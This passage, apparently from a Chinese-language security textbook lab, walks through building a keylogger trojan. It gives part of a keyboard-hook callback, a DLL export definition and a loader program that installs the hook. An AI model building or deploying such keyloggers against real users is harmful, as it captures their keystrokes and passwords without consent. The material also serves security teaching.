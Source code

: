 ```cpp
			switch (key->vkCode)
			{
			case '0':GetKeyState(VK_SHIFT) < 0 ? print(")") : print("0"); break;
			case '1':GetKeyState(VK_SHIFT) < 0 ? print("!") : print("1"); break;
			case '2':GetKeyState(VK_SHIFT) < 0 ? print("@") : print("2"); break;
			case '3':GetKeyState(VK_SHIFT) < 0 ? print("#") : print("3"); break;
			case '4':GetKeyState(VK_SHIFT) < 0 ? print("$") : print("4"); break;
			case '5':GetKeyState(VK_SHIFT) < 0 ? print("%") : print("5"); break;
			case '6':GetKeyState(VK_SHIFT) < 0 ? print("^") : print("6"); break;
			case '7':GetKeyState(VK_SHIFT) < 0 ? print("&") : print("7"); break;
			case '8':GetKeyState(VK_SHIFT) < 0 ? print("*") : print("8"); break;
			case '9':GetKeyState(VK_SHIFT) < 0 ? print("(") : print("9"); break;
			}
	}
	return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}
```

（3）在该项目中添加模块定义文件（名称自定），如图 6-2 所示，然后添加如下内容，以导出函数名。

```
LIBRARY "HookDll"
EXPORTS
InstallHook
UnInstallHook
```

（4）生成解决方案，编译生成目标 DLL。

## 安装键盘记录木马

（1）新建空的桌面应用程序(.exe)项目，命名为 HookMain，然后向项目中添加源程序 hookmain.cpp，如图 6-3 所示。 

```cpp
#include <windows.h>
#include <stdio.h>
typedef BOOL(*WINAPI pfnHookProc)();

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	HANDLE hEvent = CreateEvent(NULL, FALSE, TRUE, TEXT("singleton"));
	if (GetLastError() == ERROR_ALREADY_EXISTS)
		return 0;
    
	HMODULE hModule = LoadLibrary(TEXT("HookDll.dll"));
	if (hModule == NULL)
		return 0;
    
	pfnHookProc pfnInstall = (pfnHookProc)GetProcAddress(hModule, "InstallHook");
	pfnHookProc pfnUnInstall = (pfnHookProc)GetProcAddress(hModule, "UnInstallHook");
    
	pfnInstall();
	do  // line 19
	{
		int nRet = MessageBox(NULL, TEXT("退出?"), TEXT("Tips"), MB_YESNO);
		if (nRet == IDYES)
			pfnUnInstall();
		break;
	} while (TRUE);  // line 25
    
	FreeLibrary(hModule);
	CloseHandle(hEvent);
	return 0;
}
```

